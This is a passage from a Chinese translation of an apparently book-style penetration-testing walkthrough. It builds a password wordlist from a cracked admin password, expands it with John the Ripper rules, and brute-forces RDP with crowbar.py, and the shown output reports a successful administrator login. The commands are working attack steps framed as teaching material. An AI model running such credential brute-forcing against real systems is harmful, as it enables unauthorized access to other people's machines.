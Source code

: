 答对 了！似乎我们有用户帐户和密码来访问一些未知的应用程序。我们可以再次尝试使用John the Ripper破解散列，但在Google上快速搜索管理员的散列显示，对应的密码实际上是：“Slash！’。

如果我们回到nmap结果，我们会看到MongoDB机器上的端口3389是公开的。此服务允许使用Windows上的mstsc或Linux上的rdesktop等工具远程访问Windows计算机。让我们重新使用刚才检索到的密码: ![](.gitbook/assets/40.rdp.png)

够近了！虽然它没有立即工作，密码” Slash!”让我们对管理员如何选择密码有了宝贵的了解。我们可以建立一个基于相同格式的候选词列表，然后在远程机器上尝试每一个候选词，直到我们击中！

暴力攻击当然可能触发警报，甚至暂时锁定帐户，因此在这种情况下，我们将避免它，因为我们已经拥有这么多机器。不过，我还是会详细说明执行步骤，以防万一。

首先，我们根据前面得到的密码手动生成一个关键字库:

```text
slash 
paul 
slashPaul 
slash! 
slash$ 
slash* 
paul! 
holdings 
holding 
slashPaul 
slashpaul
slashslash
```

然后我们使用John The Ripper对这些关键字应用多种变体（添加数字、特殊字符、大写的第一个字符等）

```text
FrontGun$ john --wordlist=pass.txt --rules –stdout > pass_file.txt

slashslash2 slash! paul! slashpaul! holdings! holding! slashpaul! slashslash! slash3 paul3 slashpaul3 holdings3 holding3 slashpaul3 slashslash3 slash7 paul7 slashpaul7 […]
```

现在我们将这个新构建的列表提供给一个执行RDP暴力破解的工具：Patator、THC Hydra、Crowbar等:

```text
FrontGun$    python    crowbar.py    -b    rdp    -s 172.31.19.22/32 -u administrator -C pass_file.txt

2017-01-15 12:10:14 START
2017-01-15 12:10:14 Crowbar v0.3.5-dev
2017-01-15 12:10:14 Trying 192.168.1.52:3389
2017-01-15 12:10:30 RDP-SUCCESS:172.31.19.22:3389 - administrator:Slashpaul!
2017-01-15 12:10:38 STOP
```

此时我们几乎可以确定我们在Bluebox网络中拥有一台机器。这意味着我们可以开始考虑攻击内部网络的方法。

不过，我们不要着急。我们仍然在Bluebox（公共DMZ）中，我们需要解决一些基本问题，比如：我们在哪台机器上？我们有什么特权？这个网段还有哪些重要的服务器？这就是它特别有趣的地方！

> 翻译：Ryan 2019/8/16
> 校对：Regina9Li 2019/11/25